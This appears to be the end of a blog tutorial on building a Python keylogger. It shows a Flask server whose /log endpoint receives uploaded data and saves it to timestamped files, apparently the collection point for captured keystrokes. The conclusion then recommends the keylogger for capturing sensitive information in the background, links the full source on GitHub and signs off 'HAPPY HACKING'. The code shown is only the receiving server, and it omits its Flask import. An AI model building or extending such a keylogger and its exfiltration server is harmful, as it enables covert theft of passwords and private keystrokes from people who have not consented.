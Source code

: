 ```python
from datetime import datetime

# Create a Flask application instance
app = Flask(__name__)

# Define a route for the /log endpoint that only accepts POST requests


@app.route('/log', methods=['POST'])
def receive_log():
    # Get the current datetime
    now = datetime.now()
    # Define a filename for the log data based on the current datetime
    file_name = f"log_{now.year}_{now.month}_{now.day}_{now.hour}_{now.minute}_{now.second}.txt"
    # Get the log data from the request body
    log_data = request.data
    # Open the log file for writing in binary mode
    with open(file_name, "wb") as f:
        # Write the log data to the log file
        f.write(log_data)

    # Return 'OK' to indicate that the request was successful
    return 'OK'


# If the script is run directly, start the Flask application
if __name__ == '__main__':
    app.run()
```

### [](#header-3)
In conclusion, we have seen how to develop a basic keylogger using Python. This type of software can be a useful tool for monitoring a user's activity or capturing sensitive information. By importing the necessary libraries and modules in Python, defining a function for recording keystrokes, and creating a Keylogger class to manage the keylogger's behavior, we can create a functional keylogger that can run in the background on a computer. This keylogger can be easily modified and expanded upon to suit specific needs and requirements.<br>
Full code in github [here](https://github.com/Ahmed-Z/RemoteKeylogger).<br>
HAPPY HACKING.